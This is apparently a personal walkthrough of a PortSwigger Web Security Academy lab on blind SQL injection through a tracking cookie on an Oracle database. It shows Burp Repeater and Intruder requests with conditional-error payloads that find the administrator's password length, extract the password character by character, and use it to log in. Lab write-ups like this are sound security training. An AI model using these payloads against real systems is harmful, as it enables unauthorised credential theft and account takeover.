 *This lab contains a blind SQL injection vulnerability. The application uses a tracking cookie for analytics, and performs a SQL query containing the value of the submitted cookie.
The results of the SQL query are not returned, and the application does not respond any differently based on whether the query returns any rows. If the SQL query causes an error, then the application returns a custom error message.
The database contains a different table called users, with columns called username and password. You need to exploit the blind SQL injection vulnerability to find out the password of the administrator user.
To solve the lab, log in as the administrator user.*

Upon loading the page, I clicked on *My account* and checked my HTTP History. For the request : 
```Burp 
GET /login HTTP/2
Host: 0a7f00bf04e42eee80157b93006700de.web-security-academy.net
Cookie: TrackingId=PfJD9RLxfNj8UB1J; session=LZsMcf4PGNcPaQ3Sv51r4vujGd0db0yj
User-Agent: Mozilla/5.0 (X11; Linux aarch64; rv:109.0) Gecko/20100101 Firefox/115.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Referer: https://0a7f00bf04e42eee80157b93006700de.web-security-academy.net/
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: same-origin
Sec-Fetch-User: ?1
Te: trailers
```
There was no visible change in the response. 

I decided to try to trigger a error response based on conditions. I first checked if there was a chance for SQLi vulnerability by modifying the request in the Repeater: 
```Burp 
ET /login HTTP/2
Host: 0a7f00bf04e42eee80157b93006700de.web-security-academy.net
Cookie: TrackingId=PfJD9RLxfNj8UB1J'; session=LZsMcf4PGNcPaQ3Sv51r4vujGd0db0yj
...
```
An error was received int as seen below: 
```Burp 
HTTP/2 500 Internal Server Error
Content-Type: text/html; charset=utf-8
X-Frame-Options: SAMEORIGIN
Content-Length: 2324
```
I then checked if the application interprets the injection as a query by adding one more ' mark: 
```Burp 
GET /login HTTP/2
Host: 0a7f00bf04e42eee80157b93006700de.web-security-academy.net
Cookie: TrackingId=PfJD9RLxfNj8UB1J''; session=LZsMcf4PGNcPaQ3Sv51r4vujGd0db0yj
```
This returns a OK response with no error: 
```Burp 
HTTP/2 200 OK
Content-Type: text/html; charset=utf-8
X-Frame-Options: SAMEORIGIN
Content-Length: 3149
```

Given that this database is Oracle, I modified the query in the repeater to as such: 
```Burp 
GET /login HTTP/2
Host: 0a8800880470e35e802508ae00c9003f.web-security-academy.net
Cookie: TrackingId=dZw12EJsZs1wnBk'AND (SELECT CASE WHEN (1=1) THEN 1 ELSE 1/0 END FROM dual)=1--;
...
```
This checks if any error would be thrown from a `TRUE`  statement. The following successful response was received: 
```Burp 
HTTP/2 200 OK
Content-Type: text/html; charset=utf-8
X-Frame-Options: SAMEORIGIN
Content-Length: 3149
```
I then checked if any error would be thrown from a `FALSE` statement. I modified the request to the following: 
```Burp 
GET /login HTTP/2
Host: 0a8800880470e35e802508ae00c9003f.web-security-academy.net
Cookie: TrackingId=dZw12EJsZs1wnBk'AND (SELECT CASE WHEN (1=2) THEN 1 ELSE 1/0 END FROM dual)=1--; 
```
The following error response was observed: 
```Burp 
HTTP/2 500 Internal Server Error
Content-Type: text/html; charset=utf-8
X-Frame-Options: SAMEORIGIN
Content-Length: 2324
```
I can now modify the request to check if there is a user named *administrator*: 
```Burp 
GET /login HTTP/2
Host: 0a8800880470e35e802508ae00c9003f.web-security-academy.net
Cookie: TrackingId=dZw12EJsZs1wnBk'AND (SELECT CASE WHEN (1=1) THEN 1 ELSE 1/0 END FROM users WHERE username='administrator')=1--;
...
```
The response was successful: 
```Burp 
HTTP/2 200 OK
Content-Type: text/html; charset=utf-8
X-Frame-Options: SAMEORIGIN
Content-Length: 3149
```
Now to verify the password length, I passed this into the Repeater:  
```Burp 
GET /login HTTP/2
Host: 0abb003e0491d6398054f83d00900092.web-security-academy.net
Cookie: TrackingId=ZrWXzpJw6Bn01yk5'||(SELECT CASE WHEN LENGTH(password)>=1 THEN NULL ELSE to_char(1/0) END FROM users WHERE username ='administrator')--;
...
```
I sent this modified request to Intruder to increment the value of length until I received an error: 
```Burp 
GET /login HTTP/2
Host: 0abb003e0491d6398054f83d00900092.web-security-academy.net
Cookie: TrackingId=ZrWXzpJw6Bn01yk5'||(SELECT CASE WHEN LENGTH(password)>=§1§ THEN NULL ELSE to_char(1/0) END FROM users WHERE username ='administrator')--; 
...
```
This was the result of starting the attack using a numbers payload from 1-50:
![[Screenshot 2024-05-02 at 4.05.44 PM.png]]

This shows us that the length of the password is 20. 

Now it is time for us to find the value of the character at each index of the password. 
Modified the following request to the following: 
```Burp 
GET /login HTTP/2
Host: 0abb003e0491d6398054f83d00900092.web-security-academy.net
Cookie: TrackingId=ZrWXzpJw6Bn01yk5'||(SELECT CASE WHEN SUBSTR(password,1,1)='a' THEN NULL ELSE to_char(1/0) END FROM users WHERE username ='administrator')--;
```
Sent this to Intruder, used *Cluster Bomb* and created the payloads as seen below: 
```Burp 
GET /login HTTP/2
Host: 0abb003e0491d6398054f83d00900092.web-security-academy.net
Cookie: TrackingId=ZrWXzpJw6Bn01yk5'||(SELECT CASE WHEN SUBSTR(password,§1§,1)='§a§' THEN NULL ELSE to_char(1/0) END FROM users WHERE username ='administrator')--; 
```
![[Screenshot 2024-05-02 at 4.21.17 PM.png]]
![[Screenshot 2024-05-02 at 4.21.45 PM.png]]
Once the attack was finished, I sorted the payloads by payload number 1 and by status code 200. 
Piecing those with status code 200, I received the following password: 
`7a3jk3m8a3cy05k1jy4o`

Managed to log in successfully!

![[Screenshot 2024-05-02 at 4.30.02 PM.png]]
